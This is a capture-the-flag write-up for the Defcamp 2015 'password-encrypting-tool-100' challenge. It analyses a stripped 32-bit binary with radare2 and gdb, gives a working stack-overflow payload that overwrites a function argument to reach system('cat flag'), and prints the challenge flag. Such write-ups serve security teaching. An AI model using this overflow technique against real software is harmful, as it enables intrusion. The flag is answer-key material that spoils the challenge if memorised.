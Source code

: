 # Defcamp CTF Qualifications 2015: password-encrypting-tool-100

**Category:** Exploit
**Points:**100
**Solves:**
**Description:**

>Our second newest programmer created a tool so that we can encrypt our usual passwords and use more secure ones wherever we register new accounts. He said that he left some sort of an easter egg that could leverage you, but he doesn't really expect anyone to get it. You are the newest programmer, can you find it and prove him you are the one?

> Hack the target when you've figured out with this [file](e100).

>Target: dctf@10.13.37.6:22


## Write-up

by [polym](https://github.com/abpolym)

This writeup is based on following writeups:

* <https://github.com/RandomsCTF/write-ups/tree/master/Defcamp%20CTF%20Qualification%202015/Password%20encrypting%20tool%20%5Bexploit%5D%20(100)> 
* <https://github.com/ByteBandits/writeups/blob/master/defcamp-quals-2015/exploit/e100/sudhackar/README.md>

### Meta

Vulnerability:

* Stack Overflow via `gets`
* Call hidden function

We are given a stripped 32bit ELF for i386 Linux:

```bash
$ file e100
e100: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=4410355efef2e99ac54e4028dba1b3e40d055fee, stripped
```

Running it, we can provide a password as input, which then is encrypted and returned:

```bash
$ ./e100
Enter password: hello
Your new secure password is: ?????
```

Lets open it in `radare2` and look at the functions available:

```bash
[0x08048400]> aa
[0x08048400]> afl | sort -k1 | column -t
0x08048390  16   2  sym.imp.printf
0x080483a0  16   2  sym.imp.gets
0x080483b0  16   2  sym.imp.__stack_chk_fail
0x080483c0  16   2  sym.imp.system
0x080483e0  16   2  sym.imp.strlen
0x080483f0  16   2  sym.imp.__libc_start_main
0x08048400  34   1  entry0
0x080484fd  167  9  fcn.080484fd
0x080485a4  28   1  main
```

Ok looks like we have some interesting imported functions that have been called: `system`, `gets` and `printf`.

Our binary itself consists of two functions: `fcn.080484fd` and `main`.

Decompiling `main`:

![](./main.png)

Decompiling `fcn.080484fd`:

![](./fcn-080484fd.png)

Main just does `fcn.080484fd(0xdadadada);`, while `fcn.080484fd` does following interesting things:

* If first argument of `fcn.080484fd` is `0xbadb0169`, it calls `system("cat flag");`
* Takes input and applies some simple `xor` encryption with some tweaks on it (see `0x08048546` to `0x08048574`). See [this writeup](https://github.com/ByteBandits/writeups/blob/master/defcamp-quals-2015/exploit/e100/sudhackar/README.md) for a complete source generated by Hopper.
* Calls `__stack_chk_fail()` if stack smashing has been detected

Since `gets` is called on our input, we assume that we are dealing with a simple Stack Overflow situation.

And indeed, we can smash the stack:

```bash
$ python -c 'print "A"*0x100' > in
gdb-peda$ r < in
[...]
Stopped reason: SIGSEGV
0xf7e43542 in getenv () from /lib32/libc.so.6
gdb-peda$ bt
#0  0xf7e43542 in getenv () from /lib32/libc.so.6
#1  0xf7e7918b in ?? () from /lib32/libc.so.6
#2  0xf7f0a3cb in __fortify_fail () from /lib32/libc.so.6
#3  0xf7f0a35a in __stack_chk_fail () from /lib32/libc.so.6
#4  0x0804859e in ?? ()
#5  0x41414141 in ?? ()
[...]
```

We cannot provide any shellcode to be executed, since `NX` is enabled and, adding to that, a stack smashing checking function is called right before `ret`.

Since the first argument to `fcn.080484fd` is hardcoded and always not equal to `0xbadb0169`, but `0xdadadada`, we have to smash the stack and set the value of the first argument to `0xbadb0169` to be able to execute `system("cat flag");`.

To do this, we have to find the correct offset, which can be calculated in a simple manner:

* Buffer for `gets` starts at `ebp-0x2c` (`ebp-local_3`)
* First argument for `fcn.080484fd` is at `ebp+0x8` (`ebp+arg_2`). On `ebp+0x4` we have our `EIP`/`rip`.
* Adding both together, we get `0x2c`+`0x8` = `0x34`.

Running our exploit:

```bash
$ python -c 'print "A"*0x34+"\x69\x01\xdb\xba"' | ./e100
DCTF{3671bacdb5ea5bc26982df7da6de196e}
*** stack smashing detected ***: ./e100 terminated
Enter password: Aborted (core dumped)
```

We can see the flag, `DCTF{3671bacdb5ea5bc26982df7da6de196e}`.

## Other write-ups and resources

* <https://github.com/RandomsCTF/write-ups/tree/master/Defcamp%20CTF%20Qualification%202015/Password%20encrypting%20tool%20%5Bexploit%5D%20(100)> 
* <https://github.com/ByteBandits/writeups/blob/master/defcamp-quals-2015/exploit/e100/sudhackar/README.md>
* [Japanese](http://ctf.publog.jp/archives/cat_1182010.html)
